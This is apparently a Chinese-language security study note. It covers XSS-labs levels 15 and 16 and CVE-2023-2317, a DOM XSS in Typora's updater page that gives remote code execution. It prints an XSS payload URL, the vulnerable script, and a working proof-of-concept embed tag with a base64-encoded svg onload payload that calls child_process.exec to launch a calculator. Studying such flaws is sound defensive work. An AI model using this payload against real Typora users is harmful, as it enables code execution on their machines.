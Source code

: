 ### XSS-labs

#### Less 15

> 利用了[AngularJS ng-include 指令 | 菜鸟教程 (runoob.com)](https://www.runoob.com/angularjs/ng-ng-include.html)，利用ng-Angular包含已有的XSS，需要注意的默认情况下ng-include包含的之同源的html。

payload：http://127.0.0.1/xss-labs-master/level15.php?src='level1.php?name=\<img src=1 onerror=alert(1)>'

![image-20230819165834554](C:\Users\Administrator\Desktop\安全\Web\XSS\images\image-20230819165834554.png)

#### Less16

> 过滤了空格，使用其他空白符号代替，用到了url编码

### typora历史漏洞

#### CVE-2023-2317（typora 利用DOM XSS实现RCE）

* typora版本：<=1.6.7

* 简述：通过在HTML标签中加载 typora://app/typemark/updater/update.html，传入精心构造的参数，可以触发DOM-XSS漏洞

* 详情：

  * update.html：这是一个与typora更新相关的文件，路径在Typora\resources\updater下![image-20230903153628026](.\images\image-20230903153628026.png)定位问题

    ```javascript
    <script type="text/javascript">
          // regex.exec(str1) 返回null或者数组
          // window.location获得当前页面url，包括属性hash（#开始的url锚），host，hostname，href，search等
          var curVersion = /[?&]curVersion=([^&]+)/.exec(window.location.search)[1];
          var newVersion = /[?&]newVersion=([^&]+)/.exec(window.location.search)[1];
          var releaseNoteLink = decodeURIComponent(/[?&]releaseNoteLink=([^&]+)/.exec(window.location.search)[1]);
          var hideAutoUpdates = /[?&]hideAutoUpdates=([^&]+)/.exec(window.location.search)[1] == "true";
          var labels = JSON.parse(decodeURIComponent(/[?&]labels=([^&]+)/.exec(window.location.search)[1]));
    	  // id=sum
          document.querySelector("#sum").innerText = labels[4] + " " + labels[5].replace("$1", newVersion).replace("$2", curVersion);
          document.querySelectorAll("[data-label]").forEach(function(dom){
            // 定位问题，输入数据未经处理，使用innerHTML插入
            dom.innerHTML = labels[dom.getAttribute("data-label") - 0];
          });
          document.querySelector("#release-panel").src = releaseNoteLink;
    
          var autoUpdateInput = document.querySelector("#preference-enable-auto-update")
          autoUpdateInput.checked = !!isAutoUpdateEnabled;
          autoUpdateInput.onchange = toggleAutoUpdate;
          if(hideAutoUpdates) {
            document.querySelector("#preference-enable-auto-update-wrapper").style.display = "none";
            document.querySelector("#skip-this-version-btn-group").style.display = "none";
          }
        </script>
    ```
  
    该脚本获取到当前页面的url和参数，关键在于参数label，脚本会将label使用innerHTML传入的参数不经处理地插入到具有data-label属性地元素内
  
  * 触发漏洞
  
    typora支持\<embed\> 标签，我们使用typora协议请求updater.html文件并传入构造地参数，当updater.html插入当前页面后，我们传入的恶意参数执行。注意这里的src？后的参数为encodeURIComponent编码
  
     ```html
     <!-- atob()为base64解码函数 -->
     <embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
     
     <!-- base64解码后的poc -->
     reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
     ```
  
  * 修复：目前最新版本已经将innerHTML更换为了innerText
  
  * 其他：
  
    * 在浏览器端的XSS一般不能实现RCM的，但是有许多基于electron框架的应用往往在发现XSS时就意味着可以进行RCM。typora、vscode都是基于Election构建的应用。
  
  
